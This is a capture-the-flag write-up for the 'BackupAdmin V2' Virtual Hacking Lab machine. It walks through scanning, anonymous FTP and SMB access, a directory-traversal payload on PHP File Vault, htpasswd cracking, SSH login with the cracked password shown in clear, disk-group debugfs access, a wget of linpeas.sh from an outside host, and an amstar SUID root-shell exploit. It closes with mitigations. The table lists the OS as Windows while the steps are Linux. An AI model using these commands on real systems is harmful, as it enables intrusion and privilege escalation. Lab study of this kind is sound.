# BackupAdmin V2  - Virtual Hacking Lab

| Info          | Details                                                                                              |
| ------------- | ---------------------------------------------------------------------------------------------------- |
| Platform      | Virtual Hacking Lab                                                                                  |
| Difficulty    | Advance                                                                                              |
| Target IP     | 10.11.1.4                                                                                            |
| OS            | Windows                                                                                              |
| Vulnerability | PHP File Vault 0.9 RFI, Credential Disclosure, Misconfigured Disk Group, SUID Privilege Escalation\| |
| Tools Used    | Nmap, Gobuster, Dirsearch, Searchsploit, John the Ripper, LinPEAS                                    |

## Attack Path

1. **Port Scanning** discovered FTP, SSH, and HTTP.
2. **FTP enumeration** revealed `backupdirs.txt`.
3. **Web enumeration** discovered PHP File Vault 0.9.
4. **Local File Inclusion** allowed reading sensitive files.
5. **htpasswd credentials discovered**.
6. **Password cracked with John the Ripper**.
7. **SSH login as backupuser**.
8. **Disk group abuse allowed root filesystem access**.
9. **SUID Amanda binary exploited** for root shell.
10. **Root flag captured**.

## Environment Setup

Create a structured working directory to store enumeration results and exploit files.

```bash
mkdir backupadmin_v2
cd backupadmin_v2

mkdir nmap gobuster exploit
touch users.txt creds.txt

echo 'Testing....1...2...3...' > test.txt
```

## Network Scanning

```bash
ip='10.11.1.4'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



Results: ftp, ssh ,and http open

## FTP Enumeration

Anonymous login was tested.

``` bash
ftp 10.11.1.4
```

Credentials used:

```bash
username: anonymous  
password: anonymous
```

Login was successful.

Files present on the FTP server:

`backupdirs.txt`

Download the file:

`get backupdirs.txt`

Upload attempts were denied.

`put test.txt  `



Results: Permission denied

The downloaded file contained references to several system directories used for backups.

## SMB Enumeration

```bash
smbclient -L \\$ip
smbclient \\\\$ip\share
"Display the same file as ftp"
```



Results: The share contained the **same file observed in FTP**, confirming both services expose identical data.
## Web Enumeration

Directory brute forcing was performed to identify hidden endpoints.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```





Website shown: The website appeared to run **PHP File Vault 0.9**, a vulnerable file management application.



While uploading file, it required sha1 finger print.
From the website found PHP File Vault 0.9
found an exploit which allowed RFI

## Vulnerability Search

```bash
#Using Searchsploit to search for known vulnerabilities:
searchsploit PHP File Vault 0.9

# Exploit downloaded:
searchsploit -m 40163
```



## Exploitation – Local File Inclusion

The vulnerable endpoint was:



Attempted directory traversal:

```bash
http://10.11.1.4/fileinfo.php?sha1=../../../../../../../../../../etc/passwd
```



This successfully returned the **/etc/passwd** file, confirming a **Local File Inclusion vulnerability**.

Results also display a hash.

## Credential Discovery

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt  --format=raw-md5 hash
```



Crack failed

The previously downloaded `backupdirs.txt` suggested additional sensitive files.

The following files were inspected:
```bash
# in backupdir.txt, find all the passwd txt
/etc/passwd            (no useful information)
/etc/passwd-           (no useful information)
/etc/nginx/htpasswd    (found backupuser)
```



The file `/etc/nginx/htpasswd` contained credentials for the user:

### Password Cracking 

```bash
echo '$apr1$tMyA9cpu$yp0B748Epfcv/No74ohd/0' > backupuser

john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long backupuser

john --show --format=md5crypt-long backupuser
```

Display cracked password:



# Initial Access (SSH)

```bash
ssh backupuser@$ip
0811783909
"Success"

whoami
id
```



Results: Shown I am a backupuser, with disk group

## Linux Privilege Escalation

### Privilege Escalation – Disk Group Abuse

The `id` command revealed the user belonged to the **disk group**.

This group allows **direct read access to disk partitions**.

Identify disk devices owned by the group:

```bash
find /dev -group disk

## Display the available partitions
df -h
## find the diskgroup is mounted with /

##
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
cat /root/key.txt
### retrieve proof.txt
```



Inside debugfs: read key txt

## Additional Privilege Escalation Method - SUID

```bash
# Manual search SUID binaries
find / -perm -u=s -type f 2>/dev/null

# if still dont have any useful information
wget http://192.168.45.198/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```



The following binary was vulnerable:

/usr/libexec/amanda/application/amstar

Create a malicious script:

```bash
echo '#!/bin/sh  
/bin/sh' > runme.sh  

chmod +x runme.sh
```

Execute the exploit:

```bash
/usr/libexec/amanda/application/amstar restore --star-path=/tmp/runme.sh
```

This spawned a **root shell**.



# Mitigation

### 1. Anonymous FTP Access

- Disable anonymous login on the FTP server.
- Restrict FTP access to authenticated users only.
- Use secure alternatives such as **SFTP or FTPS**.

---

### 2. Sensitive File Exposure

- Do not store sensitive files in publicly accessible directories (FTP/SMB/Web).
- Restrict access using proper **file permissions and ACLs**.
- Regularly audit exposed services for sensitive data.

---

### 3. Local File Inclusion (LFI)

- Validate and sanitize user input in web applications.
- Block directory traversal sequences (`../`).
- Update or replace **PHP File Vault 0.9** with a secure version.

---

### 4. Credential Exposure

- Store credential files outside the web root.
- Use strong password hashing algorithms such as **bcrypt or Argon2**.
- Implement strict access controls for configuration files.

---

### 5. Weak Password Policy

- Enforce strong password policies (minimum length and complexity).
- Implement account lockout after multiple failed login attempts.
- Enable **multi-factor authentication (MFA)** where possible.

---

### 6. Excessive User Privileges

- Remove unnecessary users from sensitive groups such as **disk**.
- Apply the **principle of least privilege**.
- Periodically review user group memberships.

---

### 7. Misconfigured SUID Binaries

- Remove unnecessary **SUID permissions** from binaries.
- Regularly audit SUID files on the system.
- Keep software such as **Amanda backup tools** updated.